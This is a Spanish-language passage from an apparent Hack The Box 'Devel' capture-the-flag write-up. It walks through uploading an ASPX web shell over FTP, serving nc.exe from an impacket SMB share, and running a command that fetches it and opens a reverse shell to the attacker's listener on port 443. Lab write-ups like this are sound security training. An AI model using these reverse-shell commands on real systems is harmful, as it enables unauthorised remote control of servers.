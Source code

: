 <br/>

Si accedemos a `http://10.10.10.5/hola.txt` podremos ver el contenido del archivo. Por lo tanto podemos intentar a subir un archivo `.aspx` para obtener una *reverse shell*.


## Explotación

Si ejecutas `locate .aspx | grep cmd` podrás encontrar algunas *web shells* preinstaladas en tu Kali Linux o ParrotOS. En mi caso usaré `aspx_cmd.aspx` de el apartado de backdoors de davtest. Este mostrará un input para ejecutar comandos en la máquina víctima.

Una vez elegido el exploit, lo subiremos al servidor usando el servicio *ftp*.

Ahora compartiremos el recurso `nc.exe` en un servidor *smb* para entablar una *reverse shell* para mayor comodidad:

```bash
sudo impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

> Para encontrar el recurso nc.exe de tu Kali Linux o ParrosOS usa: `locate nc.exe`

<br/>

Y nos pondremos en escucha por un puerto para recibir la *reverse shell*:

```bash
sudo rlwrap nc -nlvp 443
```

<br/>


Ahora accedemos a `http://10.10.10.5/aspx_cmd.aspx` y ponemos el comando que usará este servidor de *smb* para usar el `nc.exe`:

```bash
cmd /c \\10.10.14.9\smbFolder\nc.exe -e cmd 10.10.14.9 443
```

> Cambiar la ip *10.10.14.9* por la que tengas como atacante.

<br/>

![web shell](/image/htb-writeup-devel/cmd_aspx.png)

<br/>

Ahora estarás dentro de la máquina Windows en la consola donde te pusiste en escucha con el puerto **443**.
